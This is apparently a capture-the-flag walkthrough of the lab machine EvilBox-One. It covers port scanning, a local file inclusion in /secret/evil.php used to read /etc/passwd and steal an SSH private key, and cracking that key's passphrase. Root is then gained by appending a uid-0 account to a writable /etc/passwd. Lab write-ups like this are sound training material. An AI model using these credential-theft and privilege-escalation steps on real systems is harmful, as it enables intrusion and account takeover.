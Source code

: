 # PG Play - EvilBox-One

#### Ip: 192.168.171.212
#### Name: EvilBox-One
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ sudo nmap -p-  --min-rate 10000 192.168.171.212 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 14:25 CDT
Nmap scan report for 192.168.171.212
Host is up (0.081s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 4495500be473a18511ca10ec1ccbd426 (RSA)
|   256 27db6ac73a9c5a0e47ba8d81ebd6d63c (ECDSA)
|_  256 e30756a92563d4ce3901c19ad9fede64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.12 seconds
```

Heading to the site on port 80 we find a deafault Apache landing page:

![site.png](../assets/evilbox-one_assets/site.png)

Manually trying for a robots.txt page we find:

hello.png

Fuzzing for directories we find a `/secret/evil.php`

ferox.png

But navigating to the page, its just a blank page. 

Trying a few different directory traversals and continually getting blank pages rather than 404/ Not Found errors, made me wonder if the page was vulnerarble.

We can automate fuzzing for the vulnerabilty with ffuf:

nice, ffuf found something for us.

ffuf.png

We can navigate to http://192.168.171.212/secret/evil.php?command=/etc/passwd and confirm the vulnerability

etc.png

Note: I always prefer to view LFIs in the page source because the formatting is usually cleaner and more readable.

### Exploitation

Its great we found this vulnerability, but in and of itself its not too useful to us yet.

Looking through the `/etc/passwd` file we see there is a user named mowree:

```
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

Because we now that SSH is also open on the target, lets see if we can access their SSH key:

Nice that worked!

id.png

Chnging the mode and trying to use the key we see it is passphrase protected.

```text
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/EvilBox-One]
└─$ ssh -i id_rsa  mowree@192.168.171.212               
The authenticity of host '192.168.171.212 (192.168.171.212)' can't be established.
ED25519 key fingerprint is SHA256:0x3tf1iiGyqlMEM47ZSWSJ4hLBu7FeVaeaT2FxM7iq8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.171.212' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
```

No worries, lets try to crack the passphrase using ssh2john:

john.png

Cool, now that we have the passphrase we can SSH in and grab the local.txt flag:

user_flag.png

### Privilege Escalation

Lets transfer over LinPEAS to help with enumeration:

transfer.png

Nice, LinPEAS finds that the `/etc/passwd` file is writable.

write.png

This should be a quick path to root:

```text
mowree@EvilBoxOne:/tmp$ openssl passwd fake
nypzT0GRtIljA
mowree@EvilBoxOne:/tmp$ echo "root2:nypzT0GRtIljA:0:0:root:/root:/bin/bash" >> /etc/passwd
mowree@EvilBoxOne:/tmp$ su root2
Contraseña: 
root@EvilBoxOne:/tmp# whoami
root
```
Nice, that worked. We can now grab the proof.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------------------------



